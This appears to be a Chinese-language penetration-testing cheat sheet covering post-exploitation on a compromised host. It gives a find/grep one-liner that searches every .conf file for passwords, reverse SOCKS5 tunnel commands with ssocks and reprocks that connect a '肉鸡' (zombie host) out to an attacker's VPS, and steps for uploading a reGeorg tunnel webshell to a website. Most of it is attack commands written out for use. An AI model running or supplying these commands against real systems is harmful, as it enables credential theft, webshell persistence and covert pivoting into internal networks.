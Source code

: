 常见的配置文件默认地址（其实用 locate 找更方便）：

    /usr/local/nginx/conf/nginx.conf
    /etc/httpd/conf/httpd.conf
    /etc/redis.conf
    /etc/rsyncd.conf
    /etc/samba/smb.conf
    /etc/my.conf
    /etc/mongodb.conf
    /etc/vsftpd/vsftpd.conf
    */.git/config
    */conf/svnserve.conf
    /etc/yum.repos.d/
    /etc/apt/sources.list


快速查看conf文件中包含password的项

    find /  -name "*.conf" 2>&1 | xargs grep -s -i 'password'


###内网代理以及后门


####内网代理

#####ssocks

1. Download http://sourceforge.net/projects/ssocks/
2. ./configure && make
3. cd src
4. nsocks 类似通过Socks5代理后的netcat，可用来测试
socks server ssocksd 用来开启Socks5代理服务 
ssocks 本地启用Socks5服务，并反弹到另一IP地址 
rcsocks 接收反弹过来的Socks5服务，并转向另一端口
eg:在肉鸡上执行

    ./rssocks -vv -s vpsip:1081
    
   在vps上执行
  
    ./rcsocks -l 1088 -p 1081 -vv

链接成功后 本机使用proxychains代理vpsip和端口即可

#####reGeorg

1. Download https://github.com/sensepost/reGeorg
2. 把相对应的shell传到网站上.


    python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp

####reprocks

1. Download https://github.com/RicterZ/reprocks

vps执行：server.py 8888 9999

肉鸡执行：client.py -m 1 vpsIP 8888  #这样就把socks5代理服务转出来了 
